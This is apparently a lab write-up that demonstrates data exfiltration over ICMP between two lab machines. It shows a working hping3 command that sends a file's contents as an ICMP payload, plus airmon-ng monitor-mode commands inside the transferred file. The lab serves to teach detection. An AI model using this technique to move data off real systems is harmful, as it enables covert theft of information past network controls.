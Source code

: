 ```yaml
---
title: Data exfiltration
---
```


# Data exfiltration

1. Goal
    * Carry out data from one computer to another computer using ICMP.

2. Used hardware
    * 1 laptop with Kali Linux
    * 1 laptop with Windows 10

3. Used software
    * Kali Linux (2020.1)
    * Wireshark 3.2.3

4. Setup
    
    ![Success](./assets/setup.png)

5. Getting started

    1. Data exfiltration occurs when malware and/or a malicious actor carries out an unauthorized data transfer from a computer.

    We will use hping3 as an example.
    
    [More information about hping3](https://tools.kali.org/information-gathering/hping3).

    2. Some additional information:
        - IP address Kali: 192.168.1.1/24
        - IP address Windows 10: 192.168.1.2/24
        - Name of the file that will be transferred: WLAN_Commands

    ```
    kali@KALI1:~$ cat ./Desktop/WLAN_Commands 
    Look for the correct WLAN adapter
    sudo airmon-ng

    Kill the nework managers
    sudo airmon-ng check kill

    Put the adapter in monitor mode
    sudo airmon-ng start wlan1

    Start Wireshark
    sudo wireshark

    Select wlan1mon interface!
    kali@KALI1:~$ 
    ```
    3. Check the possibilities of hping3.

    ```
    kali@KALI1:~$ sudo hping3 -h
    usage: hping3 host [options]
    -h  --help      show this help
    -v  --version   show version
    -c  --count     packet count
    -i  --interval  wait (uX for X microseconds, for example -i u1000)
        --fast      alias for -i u10000 (10 packets for second)
        --faster    alias for -i u1000 (100 packets for second)
        --flood      sent packets as fast as possible. Don't show replies.
    -n  --numeric   numeric output
    -q  --quiet     quiet
    -I  --interface interface name (otherwise default routing interface)
    -V  --verbose   verbose mode
    -D  --debug     debugging info
    -z  --bind      bind ctrl+z to ttl           (default to dst port)
    -Z  --unbind    unbind ctrl+z
        --beep      beep for every matching packet received
    Mode
    default mode     TCP
    -0  --rawip      RAW IP mode
    -1  --icmp       ICMP mode
    -2  --udp        UDP mode
    -8  --scan       SCAN mode.
                    Example: hping --scan 1-30,70-90 -S www.target.host
    -9  --listen     listen mode
    IP
    -a  --spoof      spoof source address
    --rand-dest      random destionation address mode. see the man.
    --rand-source    random source address mode. see the man.
    -t  --ttl        ttl (default 64)
    -N  --id         id (default random)
    -W  --winid      use win* id byte ordering
    -r  --rel        relativize id field          (to estimate host traffic)
    -f  --frag       split packets in more frag.  (may pass weak acl)
    -x  --morefrag   set more fragments flag
    -y  --dontfrag   set don't fragment flag
    -g  --fragoff    set the fragment offset
    -m  --mtu        set virtual mtu, implies --frag if packet size > mtu
    -o  --tos        type of service (default 0x00), try --tos help
    -G  --rroute     includes RECORD_ROUTE option and display the route buffer
    --lsrr           loose source routing and record route
    --ssrr           strict source routing and record route
    -H  --ipproto    set the IP protocol field, only in RAW IP mode
    ICMP
    -C  --icmptype   icmp type (default echo request)
    -K  --icmpcode   icmp code (default 0)
        --force-icmp send all icmp types (default send only supported types)
        --icmp-gw    set gateway address for ICMP redirect (default 0.0.0.0)
        --icmp-ts    Alias for --icmp --icmptype 13 (ICMP timestamp)
        --icmp-addr  Alias for --icmp --icmptype 17 (ICMP address subnet mask)
        --icmp-help  display help for others icmp options
    UDP/TCP
    -s  --baseport   base source port             (default random)
    -p  --destport   [+][+]<port> destination port(default 0) ctrl+z inc/dec
    -k  --keep       keep still source port
    -w  --win        winsize (default 64)
    -O  --tcpoff     set fake tcp data offset     (instead of tcphdrlen / 4)
    -Q  --seqnum     shows only tcp sequence number
    -b  --badcksum   (try to) send packets with a bad IP checksum
                    many systems will fix the IP checksum sending the packet
                    so you'll get bad UDP/TCP checksum instead.
    -M  --setseq     set TCP sequence number
    -L  --setack     set TCP ack
    -F  --fin        set FIN flag
    -S  --syn        set SYN flag
    -R  --rst        set RST flag
    -P  --push       set PUSH flag
    -A  --ack        set ACK flag
    -U  --urg        set URG flag
    -X  --xmas       set X unused flag (0x40)
    -Y  --ymas       set Y unused flag (0x80)
    --tcpexitcode    use last tcp->th_flags as exit code
    --tcp-mss        enable the TCP MSS option with the given value
    --tcp-timestamp  enable the TCP timestamp option to guess the HZ/uptime
    Common
    -d  --data       data size                    (default is 0)
    -E  --file       data from file
    -e  --sign       add 'signature'
    -j  --dump       dump packets in hex
    -J  --print      dump printable characters
    -B  --safe       enable 'safe' protocol
    -u  --end        tell you when --file reached EOF and prevent rewind
    -T  --traceroute traceroute mode              (implies --bind and --ttl 1)
    --tr-stop        Exit when receive the first not ICMP in traceroute mode
    --tr-keep-ttl    Keep the source TTL fixed, useful to monitor just one hop
    --tr-no-rtt       Don't calculate/show RTT information in traceroute mode
    ARS packet description (new, unstable)
    --apd-send       Send the packet described with APD (see docs/APD.txt)
    kali@KALI1:~$
    ``` 

    4. Start the capture at the Windows 10 laptop. (Wireshark)
    
    5. Start the communication between the two devices.

    ```
    kali@KALI1:~$ sudo hping3 -E ./Desktop/WLAN_Commands -1 -u -d 250 -c 1 192.168.1.2
    HPING 192.168.1.2 (eth0 192.168.1.2): icmp mode set, 28 headers + 250 data bytes
    [main] memlockall(): Operation not supported
    Warning: can't disable memory paging!
    EOF reached, wait some second than press ctrl+c
    len=278 ip=192.168.1.2 ttl=128 id=31449 icmp_seq=0 rtt=7.6 ms

    --- 192.168.1.2 hping statistic ---
    1 packets transmitted, 1 packets received, 0% packet loss
    round-trip min/avg/max = 7.6/7.6/7.6 ms
    kali@KALI1:~$
    ``` 

    6. Check Wireshark

    ![Success](./assets/hping3.png)

6. Conclusion

    *  Take preventive and detective measures against data exfiltration.


